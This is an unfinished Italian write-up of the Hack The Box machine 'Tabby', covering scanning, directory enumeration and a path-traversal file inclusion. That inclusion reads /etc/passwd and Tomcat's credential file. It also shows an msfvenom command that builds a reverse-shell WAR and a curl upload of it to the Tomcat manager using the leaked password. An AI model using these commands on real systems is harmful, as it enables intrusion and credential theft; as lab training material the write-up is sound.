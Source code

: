 # Tabby (NON COMPLETATA!)

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.194
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.194
Host is up (0.042s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/15%OT=22%CT=1%CU=37832%PV=Y%DS=2%DC=I%G=Y%TM=655484
OS:3D%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST
OS:11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Porta 80

Visito la pagina http://10.10.10.194/:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-1.png"/>
</p>

Aggiungo quindi _megahosting.htb_ al file _/etc/hosts_.

Provo ad utilizzare il comando _dirsearch_:

```text
dirsearch -u http://10.10.10.194/
```

```text
[03:53:06] 403 -  277B  - /.ht_wsr.txt
[03:53:06] 403 -  277B  - /.htaccess.orig
[03:53:06] 403 -  277B  - /.htaccess.bak1
[03:53:06] 403 -  277B  - /.htaccess.sample
[03:53:06] 403 -  277B  - /.htaccess.save
[03:53:06] 403 -  277B  - /.htaccess_extra
[03:53:06] 403 -  277B  - /.htaccessOLD
[03:53:06] 403 -  277B  - /.htaccess_orig
[03:53:06] 403 -  277B  - /.htaccessBAK
[03:53:06] 403 -  277B  - /.htaccessOLD2
[03:53:06] 403 -  277B  - /.htaccess_sc
[03:53:06] 403 -  277B  - /.htm
[03:53:06] 403 -  277B  - /.html
[03:53:06] 403 -  277B  - /.httr-oauth
[03:53:06] 403 -  277B  - /.htpasswds
[03:53:06] 403 -  277B  - /.htpasswd_test
[03:53:08] 403 -  277B  - /.php
[03:53:27] 403 -  277B  - /assets/
[03:53:27] 301 -  313B  - /assets  ->  http://10.10.10.194/assets/
[03:53:42] 200 -  766B  - /favicon.ico
[03:53:43] 301 -  312B  - /files  ->  http://10.10.10.194/files/
[03:53:43] 403 -  277B  - /files/
[03:53:59] 200 -    0B  - /news.php
[03:54:09] 200 -  811B  - /Readme.txt
[03:54:13] 403 -  277B  - /server-status
[03:54:13] 403 -  277B  - /server-status/
```

Di seguito il contenuto della pagina http://10.10.10.194/Readme.txt:

```text
== Theme Name: Hosting One Page Template
== Copyright (c) 2016 BootstrapThemes.co
== http://BootstrapThemes.co

Html Created by: http://bootstrapthemes.co

Psd Created by: Kristaps Elsins- https://dribbble.com/shots/1520333-Free-Hosting-Template-PSD

Rights:
You are permitted to use the resources for any number of personal and commercial projects.
You may modify the resources according to your requirements and include them into works,
such as websites, applications or other materials intended for sale. No attribution or
link back to this site is required, however any credit will be much appreciated.

Prohibitions:
You do not have the rights to redistribute, resell, lease, license, sublicense or offer
files downloaded from http://bootstrapthemes.co to any third party ìas isî or as a separate attachment
from any of your work. If you wish to promote my resources on your site, you must link back
to the resource page where users can find the download and not directly to the download file.

If you would like to share one of my resources, you can do so by making a link to the specific
resource on http://bootstrapthemes.co , you can if you wish insert the embed code for the product previews images to illustrate your link.
No HOTLINKING is allowed i.e. you cannot make a direct link to the download or/and the images hosted on http://bootstrapthemes.co

Concerning blog posts, you are free to link to it from any website,
but you cannot however publish it as it is, without prior consent from http://bootstrapthemes.co
```

Questo invece è il contenuto della pagina http://10.10.10.194/news.php:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-3.png"/>
</p>

Mi risalta subito all'occhio l'url aggiornato della pagina: http://megahosting.htb/news.php?file=statement.

Quindi provo a verificare la presenza della vulnerabilità LFI (Local Fil Inclusion) utilizzando come paramentro la seguente stringa: ../../../../../etc/passwd. Il risultato è il seguente:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-6.png"/>
</p>

**Quindi è vulnerabile!**

### Porta 8080

Visito la pagina http://10.10.10.194:8080/:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-2.png"/>
</p>

Provo a cliccare su _manager webapp_ e ottengo questo form:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-4.png"/>
</p>

Provo a sfruttare la vulnerabilità precedentemente trovata per accedere al file /etc/tomcat9/tomcat-users.xml. Purtroppo non ottengo nulla.

Dopo vari tentativi, provo ad effettuare la seguente richiesta: http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml.

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-7.png"/>
</p>

**Ottengo quindi delle credenziali!**


## Exploitation

Provo ad accedere tramite il form ma ottengo il seguente risultato:

<p align="center">
  <img src="/Immagini/Linux-Box/Tabby/tabby-8.png"/>
</p>

Quindi provo un'altra strada. Genero un file war, per creare una reverse shell, attraverso l'utilizzo del seguente comando:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=9999 -f war > naclapor.war
```

Successivamente, carico il file sulla tomcat manager interface:

```text
curl -u "tomcat:\$3cureP4s5w0rd123!" --upload-file naclapor.war http://10.10.10.194:8080/manager/text/deploy?path=/naclapor
```

NON VA!

...

## Privilege Escalation

...


## Credits

...
